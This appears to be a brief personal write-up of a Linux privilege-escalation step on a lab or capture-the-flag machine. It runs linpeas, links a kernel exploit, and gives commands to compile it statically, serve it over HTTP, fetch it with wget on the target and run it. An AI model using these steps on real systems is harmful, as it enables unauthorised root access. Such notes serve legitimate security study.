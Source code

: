 running linpeas found

cronjob

and `/usr/local/bin/forever`

https://www.exploit-db.com/exploits/44298

kernel vulnerable?

need static linking flag when compiling
`gcc 44298.c  -static -o exploit`
`python3 -m http.server 80`

On the other side wget the file
`chmod +x exploit`
`./epxloit`
![[Screenshots/Pasted image 20240523172635.png]]
